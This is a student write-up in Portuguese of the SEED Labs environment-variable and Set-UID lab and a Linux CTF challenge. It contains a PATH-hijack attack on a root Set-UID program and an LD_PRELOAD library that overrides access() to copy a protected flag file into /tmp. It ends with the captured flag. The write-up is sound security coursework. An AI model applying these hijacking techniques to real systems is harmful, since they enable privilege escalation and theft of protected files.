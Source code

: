 # Semana 4

## SEED Labs – Environment Variable and Set-UID Program

### Task 1

Começamos por usar o comando `env` para dar print às variáveis de ambiente.

![image](assets/s4i1.png)

Depois, tentámos criar uma nova variável:

``` bash
export HELLO ="Hello!"
```

E verificamos que existia usando o `env` mais uma vez.

![image](assets/s4i2.png)

### Task 2

Compilámos o ficheiro `myprintenv.c` duas vezes. Na primeira vez, pedimos ao processo filho para dar print às variáveis de ambiente e colocámos o seu output no ficheiro `file`. Na segunda vez, pedimos ao processo pai para dar print às variáveis de ambiente e guardamos o seu output no ficheiro `file1`. Comparámos, então, a diferença entre os dois ficheiros:

![image](assets/s4i3.png)

Concluímos, então, visto que não há diferença entre os dois ficheiros, que as variáveis de ambiente são, de facto, herdadas pelo processo filho.

### Task 3

Compilámos o seguinte ficheiro `mymenv.c`:

``` c
#include <unistd.h>

extern char **environ;

int main()
{
  char *argv[2];

  argv[0] = "/usr/bin/env";
  argv[1] = NULL;

  execve("/usr/bin/env", argv, NULL);  

  return 0 ;
}
```

Depois de o correr a primeira vez, mudámos a invocação do `execve()` para o seguinte:
``` c
execve("/usr/bin/env", argv, environ);  
```

Voltámos então a compilar e corremos novamente.

![image](assets/s4i4.png)

Como o terceiro argumento do `execve()` serve para passar as variáveis de ambiente do programa a ser invocado, quando este é `NULL`, não apresenta nenhuma variável de sistema. Quando este é substituido por um vetor que contém essas variáveis, já passa a apresentá-las.

### Task 4

Compilámos o seguinte ficheiro `systemenv.c`:

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
  system("/usr/bin/env");
  return 0;
}
```

Ao correr, verificamos que, de facto, as variáveis de ambiente são apresentadas.

![image](assets/s4i5.png)

### Task 5

Compilámos o seguinte ficheiro `printallenv.c`:

``` c
#include <stdio.h>
#include <stdlib.h>

extern char **environ;
int main() {
  int i = 0;
  while(environ[i] != NULL){
    printf("%s\n", environ[i]);
    i++;
  }
}
```

Em seguida, alterarámos o dono do programa para `root` e tornámo-lo um programa Set-UID. Também definimos 3 variáveis de ambiente.

``` bash
sudo chown root printallenv
sudo chmod 4755 printallenv

export PATH=/home/daniel/Documents/uni/fsi
export LD_LIBRARY_PATH=/home/daniel/Documents/uni
export COOL=IAMSOCOOL
```

Por fim, ao correr o `printallenv`, reparámos que, no meio das outras variáveis de ambiente, só estavam 2 das que definimos, sendo a `LD_LIBRARY_PATH` aquele que estava em falta.

```
PATH=/home/daniel/Documents/uni/fsi
COOL=IAMSOCOOL
```



### Task 6

Compilámos o seguinte ficheiro `systemls.c`:

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
  system("ls");
  return 0;
}
```

E, depois de alterar o dono do programa para `root` e torná-lo um programa Set-UID, verificámos que este corria corretamente. 

![image](assets/s4i6.png)

Agora, iremos criar um programa `malicious.c`:

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
  printf("I am evil.\n");
  return 0;
}
```

Vamos aproveitar do facto de que, se não for passado o path completo do ficheiro ao `system()`, este irá percorrer os diretórios da variável de ambiente `PATH` em busca do mesmo. Portanto, vamos adicionar um diretório ao `PATH`:

``` bash
export PATH=/home/daniel:$PATH 
```

E vamos mover o nosso código malicioso para esse diretório, com o nome `ls`. Verificamos etntão que este será executado, quando corrermos o `systemls` denovo.

![image](assets/s4i7.png)

## CTF - Linux Environment

O objetivo deste desafio CTF era capturar a flag contida no diretório `flag`, para o qual não tínhamos permissão de acesso. Uma vez que o sistema estava em modo "read only", foi necessário localizar o diretório `tmp`.

``` bash
cd ../../tmp
```
Ao ler e completar a Tarefa 7 do Lab desta semana, aprendemos que é possível sobrescrever funções da library libc. Para tal, temos primeiro de criar uma "dynamic linked library" do comando `access`.

``` c
#include <stdio.h>
#include <stdlib.h>
int access(const char *pathname, int mode) {
    system("/bin/cat /flags/flag.txt > /tmp/flag");
    return 0;
    }
```

Este programa, ao qual demos o nome de `access.c`, será usado para substituir a função `access` quando o script do administrador for executado novamente.

O `access.c` executa `system()`, no qual utilizamos o comando `cat` para redirecionar o conteúdo que deveria ser escrito em `/flags/flags.txt` para o novo ficheiro `flag`, localizado no diretório `tmp`. Ao criar este ficheiro, também alteramos as suas permissões de forma a conceder permissões de escrita, leitura e execução a qualquer utilizador/grupo/outros.

``` bash
touch flag
chmod 777 flag
```

Após criar o ficheiro `flag` e o programa `access.c`,compilamos este da seguinte maneira:

``` bash
gcc -fPIC -g -c access.c 
gcc -shared -o libaccess.so.1.0.1 access.o -lc
```
Mesmo tendo criado uma `dynamic linked library` e connectado à `C library` usando `-lc`, também é necessário adicionar a seguinte variável de ambiente:

``` bash
echo "LD_PRELOAD=/tmp/libaccess.so.1.0.1" > env
```
Esta variável de ambiente, `LD_PRELOAD` faz com que ao executar o script, relendo todas as livrarias, esta seja a primeira a ser lida.

É possível verificar se esta variável foi criada ao executar o comando `cat env`. Dessa forma, concluímos os passos necessários para obter a flag. Restava apenas esperar que o script fosse executado novamente para obter a flag.

Observamos que quando o script era executado, a variável de ambiente desaparecia do `env`, o que indicava que a flag já estava no ficheiro `flag` no diretório `tmp`. Assim, conseguimos obter a seguinte flag.


```
flag{b9cda820a8be213b709eeb1aa2f4725f}
```

